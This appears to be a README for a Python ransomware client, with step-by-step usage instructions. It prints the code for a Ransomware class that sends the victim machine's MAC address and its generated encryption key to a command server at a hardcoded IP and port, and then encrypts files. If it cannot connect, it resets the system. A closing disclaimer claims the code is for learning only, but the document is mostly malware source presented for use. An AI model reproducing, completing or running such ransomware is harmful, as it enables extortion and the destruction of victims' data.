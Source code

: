 # Client Documentation

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. **Import the necessary modules**:
```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
```
- This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. **Class Ransomware**:
```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
```
- Generate a random encryption key, initialize `System` object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
```
 - The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

```python
    def Encrypted(self):
        Encrypt(self.Private)
    
    def Decrypted(self):
        Decrypt(self.Private)
```
 - The `Encrypted` method encrypts data using the generated private key.
 - The `Decrypted` method decrypts data using the same private key.
    
```python
    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()
```
 - When initializing a `Ransomware` object, you need to provide the IP address (`host`) and port (`port`) of the server you want to connect to.


**Please note**: *This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.*